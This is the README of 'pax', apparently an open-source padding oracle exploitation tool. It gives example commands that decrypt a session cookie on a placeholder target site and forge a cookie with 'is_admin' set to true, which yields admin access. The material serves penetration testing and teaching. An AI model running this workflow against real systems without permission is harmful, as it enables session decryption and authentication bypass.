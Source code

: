 # pax

[![Travis Build Status](https://travis-ci.org/liamg/pax.svg?branch=master)](https://travis-ci.org/liamg/pax)
[![GoReportCard](https://goreportcard.com/badge/github.com/liamg/pax)](https://goreportcard.com/report/github.com/liamg/pax)

Exploit padding oracles for fun and profit!

Pax (PAdding oracle eXploiter) is a tool for exploiting padding oracles in order to:

1. Obtain plaintext for a given piece of CBC encrypted data.
2. Obtain encrypted bytes for a given piece of plaintext, using the unknown encryption algorithm used by the oracle.

This can be used to disclose encrypted session information, and often to bypass authentication, by encrypting custom plaintext and writing it back to the server. 

As always, this tool should only be used on systems you own and/or have permission to probe!

## Example Usage

If you find a suspected oracle, where the encrypted data is stored inside a cookie named `SESS`, you can use the following:

```bash
pax decrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D"
```

This will hopefully give you some plaintext, perhaps something like:

```bash
 {"user_id": 456, "is_admin": false}
```

It looks like you could elevate your privileges here!

We can attempt to do so by first generating our own encrypted data that the oracle will decrypt back to some sneaky plaintext:

```bash
pax encrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D" --plain-text '{"user_id": 456, "is_admin": true}'
```

This will spit out another base64 encoeed set of encrypted data, perhaps something like:

```
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```

Now we open our browser and set the value of the `SESS` cookie to the above value. Loading the original oracle page we should now see we are elevated to admin. 

## How does this work?

The following are great guides on how this attack works:

- https://robertheaton.com/2013/07/29/padding-oracle-attack/
- https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth
